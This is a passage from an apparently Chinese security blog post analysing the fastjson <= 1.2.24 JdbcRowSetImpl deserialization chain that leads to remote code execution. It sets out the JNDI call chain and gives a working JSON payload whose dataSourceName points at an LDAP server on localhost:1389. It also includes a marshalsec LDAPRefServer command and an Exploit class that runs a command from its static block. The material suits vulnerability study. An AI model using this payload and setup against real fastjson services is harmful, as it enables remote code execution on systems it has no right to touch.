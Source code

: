 简单分析一下lookup参数可控后，如何走到RCE.

调用链：
- -&gt; RegistryContext.decodeObject()
- -&gt; NamingManager.getObjectInstance()
- -&gt; factory.getObjectInstance()
- -&gt; NamingManager.getObjectFactoryFromReference()
- -&gt; helper.loadClass(factoryName);
[![](https://p5.ssl.qhimg.com/t01a5ff8f8de735d351.png)](https://p5.ssl.qhimg.com/t01a5ff8f8de735d351.png)

loadclass进行实例化，触发静态代码块的Runtime代码执行命令执行。

[![](https://p0.ssl.qhimg.com/t015cd5093d1ee3a09b.png)](https://p0.ssl.qhimg.com/t015cd5093d1ee3a09b.png)

[![](https://p4.ssl.qhimg.com/t01549470c20b3f13f6.png)](https://p4.ssl.qhimg.com/t01549470c20b3f13f6.png)

### <a class="reference-link" name="%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90"></a>调试分析

影响版本：fastjson &lt;= 1.2.24

payload:

```
`{`"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/Exploit", "autoCommit":true`}`
```

从前文的TemplatesImpl链分析中得知FastJson在反序列化时会去调用get、set、is方法。
<li>
**[@type](https://github.com/type)：**目标反序列化类名；</li>
<li>
**dataSourceName：**RMI注册中心绑定恶意服务；</li>
<li>
**autoCommit**：在Fastjson JdbcRowSetImpl链中反序列化时，会去调用setAutoCommit方法。</li>
详细分析fastjson如何解析可查看[Fastjson TemplatesImpl链分析](https://www.cnblogs.com/nice0e3/p/14601670.html)文章，再次不做赘诉。

启动LDAP服务端

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:80/#Exploit 1389
```

Exploit代码，需将代码编译成class文件然后挂在到web中

```
import java.io.IOException;

public class Exploit `{`
    public Exploit() `{`
    `}`
    static `{`
        try `{`

            Runtime.getRuntime().exec("calc.exe");
        `}` catch (IOException e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```
